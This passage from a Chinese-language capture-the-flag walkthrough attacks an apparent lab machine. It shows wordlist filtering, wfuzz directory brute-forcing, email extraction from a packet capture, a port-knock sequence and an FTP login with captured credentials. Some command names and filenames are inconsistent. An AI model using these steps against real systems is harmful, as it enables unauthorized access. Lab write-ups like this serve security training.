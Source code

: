 或者这里解密：https://cryptii.com/

访问：
http://192.168.253.191/exschmenuating/

可看到veronica可能是密码一部分的线索！有一个.captured文件！


 **grep 'veronica' /root/Desktop/rockyou.txt > dayu**
 
wc -l zc        
773 dayu
针对单词列表文件rockyou.txt，过滤掉了veronica所有单词，只剩773个！


----------------------------------------
----------------------------------------
6、目录爆破
**wfuzz -c --hc=400,404 -z file,zchttp://192.168.253.191/exschmenuating/FUZZ.cap**

000000772:   200        24 L     162 W      1080 Ch     "#0104veronica"
000000766:   200        192 L    800 W      8528 Ch     "012987veronica"


----------------------------------------
----------------------------------------
7、wireshark分析流量

下载流量包：
http://192.168.253.191/exschmenuating/012987veronica.cap

Eric和Veronica之间的 6 封电子邮件的内容！第二封邮件发现需要开启ftp需要看视频端口碰撞开启ftp！

**tcp.stream eq 1**
https://www.youtube.com/watch?v=z5YU7JwVy7s

----------------------------------------
----------------------------------------
8、端口敲震

通过查看Youtube视频，得到了端口爆震序列：1466, 67, 1469 ,1514, 1981, 1986, 1588....

**knock -v 192.168.253.191 1466 67 1469 1514 1981 1986**

nmap 192.168.253.191 -p21
21/tcp open  ftp


----------------------------------------
----------------------------------------
9、FTP信息枚举-ftp爆破

第三封邮件：
Thanks that will be perfect.  Please set me up an account with username of "eric" and password "ericdoesntdrinkhisownpee."

从012987veronica.cap邮件中的信息可以看到，存在 eric/ericdoesntdrinkhisownpee账号密码！


ftp 192.168.253.191
eric
ericdoesntdrinkhisownpee
get .notes
